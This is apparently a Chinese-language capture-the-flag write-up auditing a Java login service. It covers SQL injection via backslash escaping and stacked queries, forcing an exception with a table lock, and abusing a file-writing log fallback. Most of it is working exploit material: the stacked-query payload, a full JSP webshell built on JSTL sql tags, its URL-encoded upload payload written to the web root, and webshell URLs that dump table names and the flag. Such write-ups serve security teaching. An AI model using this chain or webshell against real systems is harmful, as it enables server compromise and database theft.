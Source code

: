 首先审计看关键代码
~~~
public String auth(@RequestParam String username, @RequestParam String password, HttpServletRequest request){
    String message="社工库未查询到泄露记录，你的账号是安全的。";

    if(SafeUtil.sql_check(username) || SafeUtil.sql_check(password)){
        message="stop sql inject!";
        return message;
    }

    try {
        String sql = "select username,password from app_user where username ='" + username + "' and password ='" + password + "' ;";
        ResultSet resultSet = DbUtil.getInstance().query(sql);
        if (null != resultSet) {
            while (resultSet.next()) {
                message = "您的QQ账号密码已经泄露，请立即修改密码";
                break;
            }
        }
    }catch (Exception e){
        e.printStackTrace();
        message="数据查询出错";
    }
    insertQueryLog(username,password);
    return message;
}
~~~
跟进看过滤
~~~
public static boolean sql_check(String sql){

    sql = sql.toLowerCase(Locale.ROOT);
    String ban[] = {"'",
            "file",
            "information",
            "mysql",
            "from",
            "update",
            "delete",
            "select",",","union","sleep","("};
    for (String s:ban) {
        if(sql.contains(s)){
            return true;
        }
    }
    return false;
}
~~~
虽然过滤的单引号，直接转义绕过，继续看配置文件config.properties
url=jdbc:mysql://127.0.0.1:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC
db_username=root
db_password=root

明显开启了堆叠，而且没过滤分号，直接堆叠可以注入，但是其他的无法绕过
继续看代码，跟进 insertQueryLog(username,password);
~~~
private int insertQueryLog(String username,String password){
    String sql = "insert into app_query_log(username,password) values(?,?);";
    Connection connection = DbUtil.getConnection();
    PreparedStatement preparedStatement;
    int count=0;
    try {
        connection.setAutoCommit(false);
        preparedStatement=connection.prepareStatement(sql);
        preparedStatement.setQueryTimeout(3);
        preparedStatement.setString(1,username);
        preparedStatement.setString(2,password);
        count = preparedStatement.executeUpdate();
        connection.commit();
    } catch (SQLException e) {
        LogUtil.save(username,password);
        e.printStackTrace();
    }

    return count;
}
~~~
跟进LogUtil.save方法
~~~
public class LogUtil {
    public LogUtil() {
    }

    public static void save(String username, String password) {
        FileUtil.SaveFileAs(username, password);
    }
}
~~~
继续跟进FiltUtil.SaveFileAs方法
~~~
public static boolean SaveFileAs(String content, String path) {
    FileWriter fw = null;

    boolean var4;
    try {
        fw = new FileWriter(new File(path), false);
        if (content != null) {
            fw.write(content);
        }

        return true;
    } catch (IOException var14) {
        var14.printStackTrace();
        var4 = false;
    } finally {
        if (fw != null) {
            try {
                fw.flush();
                fw.close();
            } catch (IOException var13) {
                var13.printStackTrace();
            }
        }

    }

    return var4;
}
~~~
那么思路就清晰起来了，只要报异常，就能以username为内容，password为文件名来实现任意文件写
但是过滤了(就很伤，没有办法调用方法
所以到这里时，需要解决两个问题：

- 让sql报错，进入catch异常，实现任意文件写
- 不用括号，读取数据库内容

接着我们来一一解决
首先看看要让其报错的语句
String sql = "insert into app_query_log(username,password) values(?,?);";
很明显是一个插入语句，怎么才能失败呢，有几种方法

1.修改app_query_log表，让username为主键，重复插入时会报异常。
2.删除app_query_log表，找不到要插入的表，报异常
3.锁表

我们这里使用比较优雅的方式，就是锁表来实现
第一步，先锁表，禁止更新的情况下，插入会报异常。
username=a\&password=;flush tables with read lock;%23
第二步，写入jsp文件，由于过滤了括号，这时候只能使用jstl标签来执行，完美避开了括号
下面是标签执行sql语句并回显的小马
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/sql" prefix="sql"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c"%>
<%@ page isELIgnored="false" %>
<sql:setDataSource var="test" driver="${param.driver}"
        url="${param.url}" user="root" password="root" />
   <sql:query dataSource="${test}" var="result">
        ${param.sql}
    </sql:query>

<table border="1" width="100%">
        <tr>
            <th>ctfshow</th>
        </tr>
        <c:forEach var="row" items="${result.rows}">
            <tr>
                <td><c:out value="${row.t}" /></td>
            </tr>
        </c:forEach>
    </table>
    
    被过滤的关键字，一律使用get参数注入，绕过waf，payload如下：
    username=%3C%25%40%20page%20language%3D%22java%22%20contentType%3D%22text%2Fhtml%3B%20charset%3DUTF-8%22%0A%20%20%20%20pageEncoding%3D%22UTF-8%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fsql%22%20prefix%3D%22sql%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fcore%22%20prefix%3D%22c%22%25%3E%0A%3C%25%40%20page%20isELIgnored%3D%22false%22%20%25%3E%0A%3Csql%3AsetDataSource%20var%3D%22test%22%20driver%3D%22%24%7Bparam.driver%7D%22%0A%20%20%20%20%20%20%20%20url%3D%22%24%7Bparam.url%7D%22%20user%3D%22root%22%20password%3D%22root%22%20%2F%3E%0A%20%20%20%3Csql%3Aquery%20dataSource%3D%22%24%7Btest%7D%22%20var%3D%22result%22%3E%0A%20%20%20%20%20%20%20%20%24%7Bparam.sql%7D%0A%20%20%20%20%3C%2Fsql%3Aquery%3E%0A%0A%0A%0A%3Ctable%20border%3D%221%22%20width%3D%22100%25%22%3E%0A%20%20%20%20%20%20%20%20%3Ctr%3E%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3Et%3C%2Fth%3E%0A%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3Cc%3AforEach%20var%3D%22row%22%20items%3D%22%24%7Bresult.rows%7D%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%3Cc%3Aout%20value%3D%22%24%7Brow.t%7D%22%20%2F%3E%3C%2Ftd%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3C%2Fc%3AforEach%3E%0A%20%20%20%20%3C%2Ftable%3E&password=../webapps/ROOT/1.jsp
    
    成功生成1.jsp作为小马
第三步，使用小马，查询数据库所有表的名字
http://xxx/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(table_name) as t from information_schema.tables where table_schema="app";

第四步，读取flag值
http://xxx.com/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select f1ag as t from app_flag_xxoo_non0 union select 1;

